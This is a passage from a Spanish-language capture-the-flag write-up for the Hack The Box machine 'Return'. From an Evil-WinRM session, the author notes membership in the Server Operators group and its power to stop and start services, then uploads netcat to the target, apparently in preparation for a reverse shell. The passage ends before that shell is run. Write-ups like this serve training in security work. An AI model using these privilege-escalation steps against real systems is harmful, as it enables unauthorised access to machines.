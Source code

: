 ```bash
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

Estamos en el grupo `server operators` <https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators>

![](/assets/images/htb-writeup-return/web6.png)

Tenemos la capacidad de parar y arrancar un servicio como nos dicen el la web 

Lo que vamos a hacer primero es subir el `netcat`

```bash
❯ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload nc.exe
                                        
Info: Uploading /home/miguel7/Hackthebox/Return/nmap/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 37544 bytes of 37544 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
